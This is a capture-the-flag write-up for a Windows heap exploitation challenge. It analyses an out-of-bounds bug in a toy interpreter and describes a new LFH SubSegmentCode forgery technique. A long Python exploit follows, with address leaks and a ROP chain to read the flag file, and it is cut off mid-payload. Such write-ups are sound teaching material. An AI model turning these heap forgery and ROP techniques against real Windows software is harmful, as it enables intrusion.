

# winsanity writeup

## Description

This is a Windows userland exploitation challenge written in VC++. The given binary is a type of interpreter supporting several simple operations with custom allocation scheme, highly limited in type of different size allocations possible. Attacker must escape the interpreter and gain arbitrary code execution to read the flag file.

## Solution

### TL;DR

1. 4-byte OOB RW bug in LFH chunks due to faulty copy optimization for integer arrays.
1. Shape the heap as required by allocating dummy variables.
1. Exploit OOB read to leak SubSegmentCode and derandomize LFH chunk offset.
1. Exploit OOB write on a well-placed 0x48-sized object to modify next chunk's SubSegmentCode such that decoding the value to locate its original UserBlocks instead lead to a UserBlocks of 0x168-sized objects.
1. Free the malformed chunk to taint 0x168-size UserBlocks, falsely inserting it as a 0x168-sized free chunk.
1. Allocate a 0x168-sized object, where we get the target chunk located at the address of freed chunk overlapping with other 0x48-sized chunks.
1. Use the overlapping chunk to gain arbitrary RW and get RCE.

### Interpreter Analysis

1. Token types:
   1. `ElemType::INT`: integer literal
   1. `ElemType::STR`: string literal
   1. `ElemType::ID`: identifier

1. Value types:
   1. `Type::INT`: integer value
   1. `Type::STR`: string value
   1. `Type::LST`: list value
   1. `Type::INT_LST`: optimized integer list value

1. Interpreter commands:
   | Command                         | Pythonic Pseudocode       |
   | ------------------------------- | ------------------------- |
   | `let id e`                      | `id = e`                  |
   | `del id`                        | `del id`                  |
   | `copy id1 id2`                  | `id1 = copy.copy(id2)`    |
   | `letarr id size e_1 ... e_size` | `id = [e_1, ..., e_size]` |
   | `setarr id idx val`             | `id[idx] = val`           |
   | `getarr id id2 idx`             | `id = id2[idx]`           |
   | `type e`                        | `print(type(e))`          |
   | `print e`                       | `print(e)`                |
   | `vars`                          | `print(globals().keys())` |
   | `dump`                          | `print(globals())`        |
   | `coffin`                        | `exit()`                  |

1. Notable features:
   1. `FINAL_` prefixed identifiers are like Java final keywords with immutability. These identifiers cannot be unbound nor be bound to another object, and if referencing a list cannot replace its elements with `setarr` directly. This however does not mean that elements inside the list are also immutable.
   1. All objects are allocated from from a separate NT heap, separating from all the noise from other heap usage.
   1. Allocations are done with only three chunk sizes: 0x48, 0x168 and 0x1000. All allocation requests are rounded up to the minimal chunk size from the three that can fulfill the request, and if larger than 0x1000 throws an exception.
   1. Lists that are of length 8 and larger consisting of only integers are optimized into a special list type `Type::INT_LST`, which directly stores integer values in its data space. This optimization occurs while allocating a new array with `letarr` or `copy`, but not in `setarr`.

### Bug & Vulnerability

There is only one intended bug, which is at `AllocCopy`. Copying `Type::INT_LST` causes its elements to be copied two at a time without considering odd number of elements. This leads to the copied object to overflow a single integer element serving as a 4-byte out-of-bounds read/write primitive.

### Exploit

Due to chunk size constraints and allocation of initial variables already activating LFH, OOB RW primitive is only viable across LFH chunks. This is because chunk size corresponding to objects of size 0x48 and 0x168 are already initialized to use LFH.

Let us see what data we can leak and overwrite with the 4-byte OOB RW primitive. After downloading ntdll.pdb from Microsoft Symbol Server and extracting type information using WinDbg or tools like [pdbex][PDBEX], combined with some LFH heap reversing efforts and nice references [here][REF1] and [there][REF2] (shoutout to authors!), we can see that the first 4 bytes of `_HEAP_ENTRY` after `PreviousBlockPrivateData` in case of LFH chunks represent `SubSegmentCode`.

`SubSegmentCode` stores the encoded offset of each chunk from the UserBlocks containing the chunk necessary at freeing logic. This value is computed as following:

```c
SubSegmentCode = (
    RtlpLFHKey ^
    _HEAP address ^
    (chunk address >> 4) ^
    (((chunk address) - (UserBlocks address)) << 12)  // offset from UserBlocks
) & 0xFFFFFFFF
```

We note that the first UserBlocks for size 0x48 will be created and served at first allocation of 0x48-sized object, and one UserBlocks for size 0x168 is already allocated with 5 out of 10 chunks already in use.

#### LFH Chunks Derandomization

As LFH chunk allocation is done randomly from remaining free chunks inside UserBlocks (which the exact algorithm is irrelevant in this exploit), we would like to derandomize (locate) the chunk location of allocated objects. This can be done by XORing each pair of `SubSegmentCode` leaked. The idea here is to XOR out `RtlpLFHKey` as well as unknown upper 6 bytes of `_HEAP` address.

Take an example of two chunks `c1` and `c2` located in UserBlocks `ub` at index `i1` and `i2` with corresponding `SubSegmentCode` value `ssc1` and `ssc2`. XORing results as below:

```c
ssc1 ^ ssc2 = (
    (c1 >> 4) ^ (c2 >> 4)
    ((c1 - ub) << 12) ^ ((c2 - ub) << 12)
) & 0xFFFFFFFF
```

Since `_HEAP` is always aligned by 0x10000, the lower 2 bytes of UserBlocks address is known. Furthermore, assuming that the whole UserBlocks chunk is located within 0x10000 range from a 0x10000-aligned address (i.e. upper 6 bytes are same), we can determine possible candidate pairs of `c1` and `c2` offset from `ub`. Using `offset` representing offset from UserBlocks to first chunk and `stride` representing chunk size (stride between adjacent chunks), we can rewrite the above XOR value as below:

```c
ssc1 ^ ssc2 = (
    ((ub + stride + offset * i1) >> 4) ^  // 0x00000???
    ((ub + stride + offset * i2) >> 4) ^
    ((stride + offset * i1) << 12) ^      // 0x0???0000
    ((stride + offset * i2) << 12)
) & 0xFFFFFFFF
```

The values `ssc1 ^ ssc2` can now be computed given:
1. `ub & 0xFFFF`
1. `stride = (sizeof(_HEAP_USERDATA_HEADER) rounded up to alignment 0x10)`
1. `offset = (chunk size)` (ex: 0x50 for chunks allocated to serve objects of size 0x48)
1. `i1` and `i2`

Since we can compute `SubSegmentCode` XOR values given an index pair, we can equally find an index pair given a `SubSegmentCode` XOR value. Note that there may not be only one index pair that results in a given XOR value, so we must consider all such pairs as candidates.

Exhaust a single UserBlocks with `Type::INT_LST` objects and copy them to new objects for OOB read. Reading the last integer value inside the list will give us the `SubSegmentCode` value located at next chunk relative to chunk of source object. Assuming that data over the end of last chunk are zeros (true for most cases due to alignment), there will be one leaked value of 0 - this chunk is the last chunk. For all `SubSegmentCode` leaks excluding last chunk of 0, XOR with all other values to find candidate pairs and find single unique corresponding index for every leaks. In my exploit, computing set intersection for all candidates was sufficient to find indices.

#### "House of Azurite": Faking UserBlocks with `SubSegmentCode` Forgery

We have aformentioned that `SubSegmentCode` is offset of chunk from UserBlocks encoded, and is necessary to locate UserBlocks from chunk. This logic is inside `ntdll!RtlpFreeHeapInternal`, which reads as follows:

```c
  // more code above...
  LFHKey = RtlpLFHKey;
  v23 = 1;
  if ( (_WORD)RtlpLFHKey != ((unsigned __int16)hHeap ^ (unsigned __int16)(*(_WORD *)(chunk_addr + 8) ^ (chunk_addr >> 4)))
    || (_RBX = *(_HEAP_SUBSEGMENT **)(chunk_addr
                                    - ((unsigned __int64)((unsigned int)RtlpLFHKey ^ (unsigned int)hHeap ^ *(_DWORD *)(chunk_addr + 8) ^ (unsigned int)(chunk_addr >> 4)) >> 12)),
        (v99 = _RBX) == 0i64) )
  {
    v57 = hHeap;
    goto LBL_LFH_INVALID_CHUNK;
  }
  __asm { prefetchw byte ptr [rbx] }
  IndexInUserBlocks = (unsigned __int16)(*(_DWORD *)(chunk_addr + 12) >> 8);
  var = _RBX->LocalInfo;
  UserBlocks = _RBX->UserBlocks;
  v100 = IndexInUserBlocks;
  LocalData = var->LocalData;
  LFHHeap = var->LocalData->LowFragHeap;
  LODWORD(var) = (unsigned int)LFHHeap ^ LFHKey ^ UserBlocks->EncodedOffsets.StrideAndOffset;
  LFHHeap2 = LocalData->LowFragHeap;
  if ( (_HEAP_USERDATA_HEADER *)((char *)UserBlocks
                               + IndexInUserBlocks * (((unsigned int)UserBlocks ^ (unsigned int)var) >> 16)
                               + (unsigned __int16)((unsigned __int16)UserBlocks ^ (unsigned __int16)var)) != (_HEAP_USERDATA_HEADER *)chunk_addr )
  {
    v57 = (__int64)LFHHeap->Heap;
LBL_LFH_INVALID_CHUNK:
    RtlpLogHeapFailure(3, v57, chunk_addr, 0i64, 0i64, 0i64);
    goto LABEL_83;
  }
  // more code below...
```

The first check is validating `SubSegmentCode` value. As its lower 2 bytes are only dependent on `RtlpLFHKey`, _HEAP address (`hHeap`) and chunk address (`chunk_addr`), the left side of predicate must pass first. Then, the right side computes UserBlocks address by decoding `SubSegmentCode` and subtracting the decoded offset from `chunk_addr`. Then we contine with `v99 = _RBX = (computed UserBlocks*)->SubSegment` which must not be `NULL`.

As done in LFH Chunk Derandomization part we can compute a `SubSegmentCode` with fake offset, effectively faking UserBlocks of the chunk being freed. This seems like a very promising way to exploit as we can create fake UserBlocks object at known offset. Sadly, this attempt will be thwarted by the next validation logic at the lower if-statement.

The validation logic asserts `chunk_addr == (UserBlocks addr) + stride * index + offset` which by definition must hold. `stride` and `offset` values are encoded in UserBlocks, computed as below:

```c
StrideAndOffset = (
    (_LFH_HEAP address) ^
    RtlpLFHKey ^
    (UserBlocks address) ^
    ((stride << 16) | offset)
)
```

The problem here is that `_LFH_HEAP` address is unknown, as well as `RtlpLFHKey` and the full address of fake UserBlocks address. This means that we can't just XOR some `SubSegmentCode` values to create a `StrideAndOffset` that passes the validation logic, nor do we have any valid `StrideAndOffset` leaks to start with.

This is where the idea should be sparking - **what if we use `StrideAndOffset` of a different UserBlocks?** Let us further discuss the possibilities and implications of this approach.

There are two approaches to consider in using a different UserBlocks.
1. Forging `SubSegmentCode` offset to get fake UserBlocks inside user-controlled space, and preparing `(fake UserBlocks*)->SubSegment->UserBlocks` to the address of a different target UserBlocks.
   - This approach still fails due to absence of full heap address leak.
1. Forging `SubSegmentCode` offset to get a different target UserBlocks as fake UserBlocks
   - Validation passes if the chunk address of target UserBlocks calculated with index as the index written at currently freeing chunk is in fact equal with currently freeing chunk.

The latter case can be visualized as follows, where we forge the chunk at index N of left side to target UserBlocks at right side with fake chunk N located at the exactly same address (size not proportionally scaled, but you get the idea):



_Note: The UserBlocks drawn at the right side **is** a valid UserBlocks but only up to some chunk M, where M < N._

We can now shape the heap to find if such layout can ever exist - and yes, it is possible by **consecutively allocating two UserBlocks for size 0x48, where the second one will have an exact overlap with the already allocated UserBlocks for size 0x168 at index 0x19.** In fact, this type of layout is the only possible layout to get such overlaps - forging a small chunk such that calculated UserBlocks now point to one located at a lower address but with larger chunk size.

Now it might be concerning that we're freeing a fake chunk at index 0x19 when the target UserBlocks for size 0x168 only has 10 chunks. Take a short tour to `ntdll!RtlpFreeHeapInternal` and we are greeted with BTC (Bit Test and Clear) without the test result being used. Check out allocation logic at `ntdll!RtlpLowFragHeapAllocFromContext` especially where it calls `ntdll!RtlpLfhFindClearBitAndSet` and you will again see BSF (Bit Scan Forward) and BTS (Bit Test and Set) without the test results being used, as well as the return value not being checked. Sweet :)

After derandomizing all the chunks of second UserBlocks for size 0x48, use OOB write from chunk #0x18 into chunk #0x19 to forge UserBlocks from second UserBlocks for size 0x48 into first UserBlocks for size 0x168. Delete chunk #0x19, triggering fake free. Now we can allocate object of size 0x168 to retrive a chunk that overlaps with chunk #0x1a and more.

#### From Overlapping Chunk to ROP

Since we can allocate an overlapping chunk, let us allocate probably the most useful type in this challenge: `Type::INT_LST`. All `HeapAlloc()` is done with `HEAP_ZERO_MEMORY` option, so we need additional steps to leak information. Create a fake `Type::LST` object at chunk #0x1a by writing inside overlapping fake chunk, then `setarr` on list object at chunk #0x1a to write heap address inside chunk #0x1a. `print` fake chunk to leak heap address.

We now have heap address leak, let us continue on leaking more information. To read from (near-)arbitrary address, we must first create a fake object at a lower address than the target address to read. This can be achieved by abusing reference counting done by `ObjRef()` and `ObjDeref()`.
- Arbitrary Increment: Set a fake element inside list object at chunk #0x1a by using `setarr` at fake chunk and `getarr` the fake element from list
- Arbitrary Decrement: In the same way, set a fake element and `setarr` to replace the fake element from list. Be warned however that decrementing to 0 will result in GC and corresponding `HeapFree()` on malformed chunk.
- Arbitrary Object Fetch: In the same way, set a fake element and `getarr` on the fake element to fetch it as an object. This automatically increments its reference counter by 1.

Since creating a fake object may wreck the structures near it, we must test whether or not we can modify memory at some address and still be alive.

To leak ntdll, we read `_HEAP->LockVariable->Lock.CriticalSection.DebugInfo` pointing to somewhere inside `ntdll!RtlpStaticDebugInfo`. `_HEAP->LockVariable->Lock` was empirically deterministically located at some fixed offset from `_HEAP`, so this exploit reads that address directly instead of dereferencing once. `_HEAP->FrontEndHeapStatusBitmap` was chosen as the place to create arbitrary object as to not wreak havoc on following heap usage.

With the ntdll leak, we continue on leaking information. Since we ultimately want to leak stack address, we first locate PEB from leaking `[&ntdll.TlsExpansionBitMap + 8] == &PEB.TlsExpansionBitmapBits`. Then we locate stack from TEB using `&TEB = &PEB + 0x1000`, leaking `TEB.StackBase` and `TEB.StackLimit`.

To locate exact stack address, allocate a fake object at `TEB.StackLimit` which is the lowest accessible stack address with size set so that we can read everything up to `TEB.StackBase`. Print the fake object to leak everything in stack and egghunt for known values. This exploit searches for `ntdll!RtlUserThreadStart + 0x21` which is usually located near the bottom (highest address) of stack, then leaks kernel32 and binary.

Now have all leaks necessary, ROP our way through open-read-write chain and exit from interpreter to pop out our flag.

## Remarks

The chunk size values of 0x48 and 0x168 are intentionally chosen by the author to reveal the technique easier, removing the need to do additional heap feng shui between UserBlocks. This technique can be generalized when non-LFH blocks of arbitrary size can be used, for example creating a heap layout of `Large Chunk UserBlocks | Padding with non-LFH block | Small Chunk UserBlocks` to forge a chunk from the `Small Chunk UserBlocks` into the `Large Chunk UserBlocks` using `Padding with non-LFH block` to satisfy the alignment requirement.

Also, the derandomization process is unnecessary if we were to brute-force a bit. Since our target UserBlocks for 0x48-sized objects only have 0x32 total chunks allocatable, we can try overwriting any chunk and see if we've succeeded in 1/(0x31 * 0x30) chance (randomly picking chunk24 and chunk25). Since I wanted to deter brute-forcing, I've added an easy PoW.

AFAIK, this technique has never been disclosed publicly (maybe due to its rather special limitation of 4-byte OOB RW limited to LFH chunks). If you've seen this technique before, please feel free to contact and enlighten me :)

## Exploit Code

```python
### This exploit assumes Windows environment with:
###   python2 with modules:
###     customized pwintools(https://github.com/leesh3288/pwintools)
###     bugfixed pdbparse(https://github.com/leesh3288/pdbparse)
###     pysha3
from pwintools import *
from pdbparse.symlookup import Lookup
from ast import literal_eval
from subprocess import check_output
from sha3 import sha3_256


def inject(pe, sym, name):
    if name not in pe.symbols:
        pe.symbols[name] = next(
            sym.locs[base, limit][sym.names[base, limit].index(name)]
            for base, limit in sym.addrs
            if name in sym.names[base, limit]
        )


DEBUG = False
binary = PE(r'..\dist\winsanity.exe')
binary_sym = Lookup([(r'..\dist\winsanity.pdb', 0)])
inject(binary, binary_sym, 'main')

if DEBUG:
    ntdll = PE(r'C:\Windows\System32\ntdll.dll')
    kernel32 = PE(r'C:\Windows\System32\kernel32.dll')
else:
    ntdll = PE(r'..\dist\libs\ntdll.dll')
    kernel32 = PE(r'..\dist\libs\kernel32.dll')

# downloadable from Microsoft Symbol Server given ntdll.dll
ntdll_sym = Lookup([(r'.\ntdll.pdb', 0)])
inject(ntdll, ntdll_sym, 'RtlpStaticDebugInfo')
inject(ntdll, ntdll_sym, 'TlsExpansionBitMap')


while True:
    if DEBUG:
        p = Process(r'..\dist\winsanity.exe')
        #p.timeout = 10000000
        #p.spawn_debugger(x96dbg = True, sleep = 3)
    else:
        p = Remote('183.107.102.15', 17324)
        p.timeout = 5000


    log.info('Connection established.')


    def interp(s):
        p.sendline(s)
        return p.recvuntil('>>> ', drop=True).strip()

    def recv_int_arr(var):
        res = interp('print ' + var)
        res = res.replace('[', ' ').replace(']', ' ' ).replace(',', ' ').split()
        res = list(int(e) & 0xffffffff for e in res)
        return res

    def d2q(d2):
        return (d2[0] & 0xffffffff) | ((d2[1] & 0xffffffff) << 32)

    def q2d(q):
        return (q & 0xffffffff, (q >> 32) & 0xffffffff)

    def SSCEncode(zero_ssc, base, stride, offset, idx, fake_offset):
        offset_zero = stride * 0 + offset
        addr_zero = base + offset_zero
        offset_idx = stride * idx + offset
        addr_idx = base + offset_idx
        return zero_ssc ^ (addr_idx >> 4) ^ (addr_zero >> 4) ^ (fake_offset << 12) ^ (offset_zero << 12)

    # derandomizer assumes that only lower 2 bytes change for simplicity
    def derandomizer(base, stride, offset, leaks):
        assert(leaks.count(0) == 1)  # last chunk assertion
        last_chunk = leaks.index(0)
        chunk_count = len(leaks)
        
        # pre-build pair XOR leaks
        pair_xor_map = {}
        for i in range(chunk_count):
            offset_i = stride * i + offset
            addr_i = base + offset_i
            for j in range(i + 1, chunk_count):
                offset_j = stride * j + offset
                addr_j = base + offset_j
                xor = (addr_i >> 4) ^ (addr_j >> 4) ^ (offset_i << 12) ^ (offset_j << 12)
                if xor in pair_xor_map:  # we can do better, but i'm lazy :)
                    pair_xor_map[xor] |= set((i, j))
                else:
                    pair_xor_map[xor] = set((i, j))
        
        idx = []
        for i in range(chunk_count):
            if i == last_chunk:
                idx.append(chunk_count)
                continue
            intersect_idx = set(range(1, chunk_count))
            for j in range(chunk_count):
                if j == i or j == last_chunk:
                    continue
                intersect_idx &= set(pair_xor_map[leaks[i] ^ leaks[j]])
            assert(len(intersect_idx) == 1)  # only one possible index
            idx.append(intersect_idx.pop())

        ref = int(last_chunk == 0)  # choose one non-zero ssc
        offset_ref = stride * idx[ref] + offset
        zero_ssc = SSCEncode(leaks[ref], base, stride, offset, idx[ref], offset_ref)

        idx = [i - 1 for i in idx]
        assert(sorted(idx) == list(range(0, chunk_count)))

        return idx, zero_ssc


    # PoW solving
    pt = p.recvuntil('>>> ')
    pt = pt[pt.find('"')+1:]
    pow_nonce = pt[:pt.find('"')]
    pow_difficulty = int(pt[pt.find('has ')+4:].split()[0])

    log.info('Solving PoW with difficulty {}, nonce "{}"...'.format(pow_difficulty, pow_nonce))
    pow_solved = check_output([r'.\PoWSolver.exe', str(pow_difficulty), pow_nonce]).strip()
    pow_hash = sha3_256(pow_solved + pow_nonce).hexdigest()
    log.success('PoW solved: sha3_256({} || {}) == {}'.format(pow_solved, pow_nonce, pow_hash))

    interp(pow_solved)


    # 0x48 LFH ready, no UserBlocks yet
    # 0x168 LFH UserBlocks #1 at 4AE0, count 0xa (remaining 0x5)

    log.info('Shaping heap...')

    # saturate 0x168 UserBlocks #1
    # this is to easily locate our fake free chunk later on
    for i in range(0x5):
        interp('let fill_168_{} "{}"'.format(i, 'a'*0x40))

    # allocate and saturate 0x48 UserBlocks #1 at 5EF0 (count 0x18)
    # prep several of them to use as integers to go into optimized array
    for i in range(0xd):
        interp('let int{} {}'.format(i, i))
    interp('let int255 0xff')
    for i in range(0x18 - 0xd - 1):
        interp('let fill_48_{} 0'.format(i))

    # allocate and saturate 0x48 UserBlocks #2 at 6700 (count 0x32)
    # these are target chunks to derandomize, so create optimized integer array
    for i in range(0x32):
        interp('letarr var{} 0xd {}'.format(i, ' '.join('int{}'.format(j) for j in range(0xd))))

    log.info('Leaking SubSegmentCode of 0x48-sized target LFH chunks...')

    # copy 0x32 chunks of optimized integer array, triggering OOB RW
    # this goes into 0x48 UserBlocks #3 (count 0x32)
    for i in range(0x32):
        interp('copy cpy{} var{}'.format(i, i))

    # leak next chunk SubSegmentCode of each var chunks
    var_next_ssc = []
    for i in range(0x32):
        var_next_ssc.append(recv_int_arr('cpy{}'.format(i))[-1])
    log.info('SubSegmentCode leaks: [' + ', '.join('{:08X}'.format(ssc) for ssc in var_next_ssc) + ']')

    log.info('Derandomizing target LFH chunks...')
    var_idx, zero_ssc = derandomizer(0x6700, 0x50, 0x40, var_next_ssc)
    chunk_ssc = [0] * 0x32
    log.success('Derandomization complete: ' + str(var_idx))

    log.info('Remapping variable names based on derandomization info...')
    for i in range(0x32):
        interp('let chunk{} var{}'.format(var_idx[i], i))
    for i in range(0x32):
        interp('del var{}'.format(i))
    log.success('Remapping success. chunk0 ~ chunk{} is now ordered.'.format(0x32 - 1))
    log.info('Computed SubSegmentCode of chunk0: {:08X}'.format(zero_ssc))

    # overwriting chunk25 SubSegmentCode to fake computed UserBlocks as 0x168 LFH UserBlocks #1
    # this fakes it as 25th chunk of 0x168 LFH UserBlocks #1 at free
    fake_offset = 0x6700 + 0x50 * 25 + 0x40 - 0x4AE0
    fake_ssc = SSCEncode(zero_ssc, 0x6700, 0x50, 0x40, 25, fake_offset)
    log.info('chunk25 offset from 0x168 LFH UserBlocks #1: {:X}'.format(fake_offset))
    log.info('Writing fake SubSegmentCode {:08X} to chunk25...'.format(fake_ssc))

    # reallocate chunk24 as OOB-able optimized integer array
    interp('del chunk24')
    interp('copy chunk24 chunk0')
    interp('setarr chunk24 0xd {}'.format(fake_ssc))

    log.info('Freeing chunk25 into 0x168 LFH UserBlocks #1...')
    interp('del chunk25')
    # 0x48 LFH UserBlocks #2 will see chunk25 as still allocated

    log.info('Allocating fake free chunk...')
    # try overwriting chunk26 as a fake Object as below
    payload  = ['int0'] * (0x3c // 4)  # chunk25 area & chunk26 header
    payload += ['int255', 'int0']      # refcnt 0xff
    payload += ['int2', 'int0']        # type Array<?> (unoptimized array)
    payload += ['int1', 'int0']        # length 1, 4 padding byte
    payload += ['int0', 'int0']        # element NULL
    interp('letarr fake {} {}'.format(len(payload), ' '.join(payload)))
    assert(interp('type chunk26') == 'Array<?>')
    log.success('Allocated fake free chunk, chunk26 overwritten.')

    log.info('Leaking heap address...')
    interp('setarr chunk26 0 chunk0')
    chunk0_obj_addr = d2q(recv_int_arr('fake')[-2:])
    _HEAP = chunk0_obj_addr - (0x6700 + 0x40 + 0x10)
    log.success('_HEAP:      {:016X}'.format(_HEAP))
    assert(_HEAP & 0xffff == 0)
    RtlpLFHKey_lo = (zero_ssc ^ _HEAP ^ ((chunk0_obj_addr - 0x10) >> 4) ^ (0x40 << 12)) & 0xffffffff
    log.success('RtlpLFHKey: ????????{:08X}'.format(RtlpLFHKey_lo))

    inc_ctr = 0
    def inc(addr, ctr=1):
        global inc_ctr
        if ctr <= 0:
            return
        d2 = q2d(addr)
        interp('setarr fake 0x15 {}'.format(d2[0]))
        interp('setarr fake 0x16 {}'.format(d2[1]))
        interp('getarr inc{} chunk26 0'.format(inc_ctr))
        inc_ctr += 1
        if ctr > 1:
            elems = ' '.join('inc{}'.format(inc_ctr - 1) for _ in range(ctr - 1))
            interp('letarr inc{} {} "" {}'.format(inc_ctr, ctr, elems))  # dummy string to prevent possible
            inc_ctr += 1

    def dec(addr):
        d2 = q2d(addr)
        interp('setarr fake 0x15 {}'.format(d2[0]))
        interp('setarr fake 0x16 {}'.format(d2[1]))
        interp('setarr chunk26 0 chunk0')

    def fetch_as(addr, var):
        d2 = q2d(addr)
        interp('setarr fake 0x15 {}'.format(d2[0]))
        interp('setarr fake 0x16 {}'.format(d2[1]))
        interp('getarr {} chunk26 0'.format(var))

    log.info('Leaking everything else that follows...')

    # leak ntdll from _HEAP->LockVariable->Lock.CriticalSection.DebugInfo pointing inside ntdll.RtlpStaticDebugInfo
    # somewhere at FrontEndHeapStatusBitmap where incrementing won't wreak havoc
    ntdll_leaker = _HEAP + 0x1ec
    inc(ntdll_leaker + 0x8)                 # set type as String (data starts at _HEAP + 0x200)
    inc(ntdll_leaker + 0x11)                # set length as 0x100
    fetch_as(ntdll_leaker, 'ntdll_leaker')  # fetch with refcnt increment
    check = u64(literal_eval(interp('print ntdll_leaker'))[0xc0:0xc8]) - ntdll.symbols['RtlpStaticDebugInfo']
    assert(check & 0xffff in range(0, 0x30*6, 0x30))
    ntdll.base = check & ~0xffff
    log.success('ntdll:      {:016X}'.format(ntdll.base))
    assert(ntdll.base & 0xffff == 0)

    # leak PEB from [&ntdll.TlsExpansionBitMap + 8] == &PEB.TlsExpansionBitmapBits
    PEB_leaker = ntdll.base + ntdll.symbols['TlsExpansionBitMap'] - 0x54
    inc(PEB_leaker + 0x8)               # set type as String (data starts at ntdll.base + ntdll.symbols['TlsExpansionBitMap'] - 0x40)
    inc(PEB_leaker + 0x11)              # set length as 0x100
    fetch_as(PEB_leaker, 'PEB_leaker')  # fetch with refcnt increment
    PEB = u64(literal_eval(interp('print PEB_leaker'))[0x48:0x50]) - 0x240
    log.success('PEB:        {:016X}'.format(PEB))
    assert(PEB & 0xfff == 0)

    # PEB near end of alignment, seems to act weird at 0xfe000 and 0xff000
    if (PEB & 0xff000) in [0xfe000, 0xff000]:
        log.warning("TEB = PEB + 0x1000 may not hold! Trying again...")
        p.close()
        continue

    # leak TEB contents (stack) from PEB + 0x1000
    TEB_leaker = PEB + 0x1000 - 0x14
    inc(TEB_leaker + 0x8)               # set type as String (data starts at TEB)
    inc(TEB_leaker + 0x11)              # set length as 0x100
    fetch_as(TEB_leaker, 'TEB_leaker')  # fetch with refcnt increment
    TEB_data = literal_eval(interp('print TEB_leaker'))
    StackBase  = u64(TEB_data[0x08:0x10])
    StackLimit = u64(TEB_data[0x10:0x18])
    log.success('StackBase:  {:016X}'.format(StackBase))
    log.success('StackLimit: {:016X}'.format(StackLimit))
    assert(StackBase & 0xffff == 0 and StackLimit & 0xfff == 0)

    # leak stack contents to leak everything & ROP
    log.info('Dumping stack data of size {:X}...'.format(StackBase - StackLimit))
    stack_leaker = StackLimit
    inc(stack_leaker + 0x8, 3)               # set type as Array<Integer>
    remain = StackBase - StackLimit - 0x14
    for i in range(4):                       # set size as the whole stack, excluding header 0x14
        unit = 0x4 << ((3 - i) * 8)
        incr = remain // unit
        remain -= incr * unit
        inc(stack_leaker + 0x10 + (3 - i), incr)
    fetch_as(stack_leaker, 'stack')
    try:  # we sometimes (but very rarely) fail here, dunno why...
        stack_data = ''.join(p32(dword) for dword in [0]*5 + recv_int_arr('stack'))
    except:
        log.warning('Failed to dump stack data! Trying again...')
        p.close()
        continue
    log.info('Stack data dumped.')

    log.info('Egghunt for ntdll.RtlUserThreadStart + 0x21')
    next_offset = stack_data.rfind(p64(ntdll.base + ntdll.symbols['RtlUserThreadStart'] + 0x21))
    assert(next_offset != -1)
    log.success('Found at {:016X}'.format(StackLimit + next_offset))

    log.info('Searching for kernel32 & binary base leak...')
    kernel32.base, next_offset = next(
        (u64(stack_data[offset:offset+8]) - (kernel32.symbols['BaseThreadInitThunk'] + 0x14), offset)
        for offset in range(next_offset - 8, 0, -8)
        if u64(stack_data[offset:offset+8]) & 0xffff == (kernel32.symbols['BaseThreadInitThunk'] + 0x14) & 0xffff
    )
    log.success('kernel32:   {:016X}'.format(kernel32.base))
    binary.base, RunInterpreter_retofs = next(
        (u64(stack_data[offset:offset+8]) - (binary.symbols['main'] + 0x4a), offset)
        for offset in range(next_offset - 8, 0, -8)
        if u64(stack_data[offset:offset+8]) & 0xffff == (binary.symbols['main'] + 0x4a) & 0xffff
    )
    log.success('winsanity:  {:016X}'.format(binary.base))
    payload_start = StackLimit + RunInterpreter_retofs
    log.success('RunInterpreter return address at {:016X}'.format(payload_start))


    """
    ROP gadgets
    ntdll:
    0x0000000180090c87 : add rsp, 0x40 ; pop rbp ; ret
    0x0000000180001029 : ret
    0x0000000180001b79 : xor eax, eax ; ret
    0x0000000180005f44 : pop rax ; ret
    0x000000018008db8f : pop rcx ; ret
    0x000000018008b547 : pop rdx ; pop r11 ; ret
    0x000000018008b544 : pop r9 ; pop r10 ; pop r11 ; ret
    0x000000018008b542 : pop r8 ; pop r9 ; pop r10 ; pop r11 ; ret
    0x000000018008b541 : pop rcx ; pop r8 ; pop r9 ; pop r10 ; pop r11 ; ret
    0x0000000180078773 : mov qword ptr [rcx], rax ; ret
    0x000000018008eb91 : xor r8d, r8d ; mov eax, r8d ; ret


    ROP chain
    copy scratch + 0x300 <- r"C:\CTF\flag.txt"
    r1 = OpenFile(scratch + 0x300, scratch, 0);
    ReadFile(r1, scratch + 0x100, 0x100, scratch + 0x200, 0);
    r2 = GetStdHandle(-11);
    WriteFile(r2, scratch + 0x100, 0x100, scratch + 0x200, 0);
    Sleep(0xffffffff);
    """

    skipper = ntdll.base + 0x90c87
    ret = ntdll.base + 0x1029
    pop_rax = ntdll.base + 0x5f44
    pop_rcx = ntdll.base + 0x8db8f
    pop_rdx_r11 = ntdll.base + 0x8b547
    pop_r9_r10_r11 = ntdll.base + 0x8b544
    pop_r8_r9_r10_r11 = ntdll.base + 0x8b542
    pop_rcx_r8_r9_r10_r11 = ntdll.base + 0x8b541
    mov_drcx_rax = ntdll.base + 0x78773
    xor_r8 = ntdll.base + 0x8eb91
    OpenFile = kernel32.base + kernel32.symbols['OpenFile']
    ReadFile = kernel32.base + kernel32.symbols['ReadFile']
    WriteFile = kernel32.base + kernel32.symbols['WriteFile']
    GetStdHandle = kernel32.base + kernel32.symbols['GetStdHandle']
    Sleep = kernel32.base + kernel32.symbols['Sleep']
    scratch = binary.base + 0x1f000

    payload  = [
        skipper,  # aligns at this position at function start (payload_start)
        None,  # skip over ctx pointer & ctx data, etc...
        None,
        None,
        None,
        None,
